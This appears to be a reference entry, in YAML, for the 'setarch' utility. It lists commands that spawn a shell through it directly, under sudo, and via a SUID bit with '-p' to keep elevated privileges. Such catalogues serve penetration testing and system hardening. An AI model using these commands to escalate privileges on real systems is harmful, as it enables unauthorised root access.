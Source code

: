 ```yaml
---
functions:
  execute-interactive:
    - code: setarch $(arch) /bin/sh
  sudo-enabled:
    - code: sudo setarch $(arch) /bin/sh
  suid-enabled:
    - code: ./setarch $(arch) /bin/sh -p
---
```

